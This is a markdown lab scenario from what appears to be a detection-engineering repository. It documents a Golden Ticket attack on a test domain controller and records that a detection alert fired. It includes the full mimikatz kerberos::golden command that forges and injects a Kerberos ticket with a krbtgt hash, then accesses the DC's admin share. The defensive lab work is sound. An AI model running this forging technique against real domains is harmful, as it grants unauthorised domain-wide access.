


# 13 — Golden Ticket

## Overview

| Field             | Detail                                                                                                       |
| ----------------- | ------------------------------------------------------------------------------------------------------------ |
| Status            | ✅ Completed                                                                                                  |
| Date              | 28 June 2026                                                                                                 |
| Tier              | Advanced                                                                                                     |
| Attacker workflow | Forge a TGT with the krbtgt hash, use it to access the DC                                                    |
| Target            | win-dc (10.0.10.10)                                                                                          |
| MITRE Tactic      | Credential Access                                                                                            |
| MITRE Technique   | [T1558.001 — Steal or Forge Kerberos Tickets: Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) |
| Tool              | mimikatz kerberos::golden                                                                                    |
| Log Source        | Windows Security Event 4768 / 4769                                                                           |
| Detection         | [detection/13-golden-ticket.md](../../detection/13-golden-ticket.md)                                         |

> **Prerequisite:** You need the **krbtgt NTLM hash** and the **domain SID**, both obtained from [scenario 12 (DCSync)](../12-dcsync/README.md). Get the SID on win-dc with:
> ```powershell
> Get-ADDomain | Select-Object DomainSID
> ```

---

## Attack Steps

Run on a Windows host with mimikatz (e.g. win-client) in Admin PowerShell. Replace the placeholders with values from scenario 12:

```powershell
# Forge and inject the golden ticket
C:\Windows\Temp\mimikatz.exe "kerberos::golden /user:FakeAdmin /domain:200teamok.local /sid:S-1-5-21-3343105342-1589291951-168836957 /krbtgt:90094199920659506bf6dfff704d53e2 /ptt" exit
```

Then use the forged ticket to access the DC:

```powershell
dir \\win-dc\c$
```

---

## Detection (summary)

Full SPL, alert settings, and notes: [detection file](../../detection/13-golden-ticket.md).

---

## Findings

| Field                       | Result                                   |
| --------------------------- | ---------------------------------------- |
| Date                        | 28 June 2026                             |
| Domain SID used             | S-1-5-21-3343105342-1589291951-168836957 |
| 4769 without preceding 4768 | Yes                                      |
| Alert triggered             | Yes                                      |

---

## Screenshots

 

---

## Cleanup

```bash
./scripts/recovery/restore.sh win-dc
./scripts/recovery/restore.sh win-client
```
